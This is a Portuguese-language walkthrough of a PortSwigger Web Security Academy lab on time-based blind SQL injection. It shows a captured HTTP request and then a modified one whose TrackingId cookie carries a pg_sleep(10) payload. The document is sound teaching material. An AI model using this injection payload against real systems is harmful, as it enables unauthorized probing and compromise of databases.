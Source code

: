 
<div class="page"/>

## **<a id="6"> • Blind SQL injection with time delays.</a>**

Nesse laboratório temos um SQL Injection que não retorna erro, mas sim um tempo de resposta maior, então vamos descobrir qual é a query que está sendo executada pelo backend.

Primeiramente vamos analisar a requisição que é feita quando o aplicativo é carregado, para isso, vamos utilizar o Burp Suite.

```http
GET / HTTP/1.1
Host: 0ad800ef0400a2f6c0d31839004a009f.web-security-academy.net
Cookie: TrackingId=mkdbTrWW6PTt1W3K; session=Dl4a9I8t1XhXjMreTeOBCjMauL5AuZzK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

Ao analisar a requisição percebemos que o aplicativo usa um cookie de rastreamento para análise e executa uma consulta SQL contendo o valor do cookie enviado.

Então para fazer o teste de SQL Injection Blind, vamos utilizar o seguinte payload:

```sql
TrackingId=mkdbTrWW6PTt1W3K'||pg_sleep(10)--
```

Onde `pg_sleep(10)` é uma função que faz o banco de dados esperar 10 segundos, caso ele espere 10 segundos, sabemos que está vulnerável a SQL Injection.

Agora basta modificar a requisição no Burp Suite e enviar para o aplicativo.

```http
GET / HTTP/1.1
Host: 0ad800ef0400a2f6c0d31839004a009f.web-security-academy.net
Cookie: TrackingId=mkdbTrWW6PTt1W3K'||pg_sleep(10)--; session=Dl4a9I8t1XhXjMreTeOBCjMauL5AuZzK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```
